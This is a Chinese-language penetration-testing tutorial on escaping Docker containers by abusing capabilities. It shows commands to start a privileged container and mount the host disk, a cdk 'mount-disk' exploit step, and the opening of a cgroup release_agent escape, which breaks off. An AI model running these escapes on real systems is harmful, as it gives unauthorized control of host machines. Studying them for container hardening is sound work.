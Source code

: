 容器权限，是运行在宿主机上的一个受限制进程；容器逃逸，指的是从受限制进程获取未受限的完整权限的过程，即我们常说的“逃逸到宿主机”或者“获取宿主机权限”，本质上是提权。

# 容器Capabilities权限滥用
进入容器后的信息收集过程，会获取Capabilities信息，如果发现容器存在特殊的权限分配，则可利用进行容器逃逸。

## PRIVILEGED
在特权容器中，有多种方式进行逃逸，包括后边提到的SYS_ADMIN、SYS_PTRACE、SYS_MODULE的利用方式，都是兼容特权容器的。

### mount device
通过挂载磁盘设备的方式进行逃逸

```plain
#查看宿主机的磁盘设备，非特权账号没有权限查看，容器中可能不存在该命令
fdisk -l

#fdisk命令不存在时，也可以通过如下命令查看磁盘设备位置，非特权账号也可以使用
cat /proc/self/mountinfo | grep /etc
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665590758972-9b4fbccd-6511-4ae3-86c2-c728b4cc5b46.png)

```plain
#启动特权容器
docker run -it --privileged nginx /bin/bash

#寻找磁盘设备位置
cat /proc/self/mountinfo | grep /etc

#挂载device
mkdir /tmp/pocking_mount
mount /dev/vda1 /tmp/pocking_mount
```

成功读写宿主机任意文件的权限

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665591300724-ecfdd2fe-581d-4220-9443-990ad5ae76f6.png)

也可以使用cdk进行信息收集

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665591340195-1d184c2c-2106-41ab-a93b-2f84ce5e92d2.png)

并进行利用

```plain
./cdk run mount-disk
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665591365149-150f94e8-3ac9-4aec-8aab-0cc4374f1e08.png)

### 创建cgroup
创建memory cgroup 并且利用 release_agent 的方式进行逃逸

```plain
#创建特权容器
docker run --rm -it --privileged ubuntu /bin/bash
```
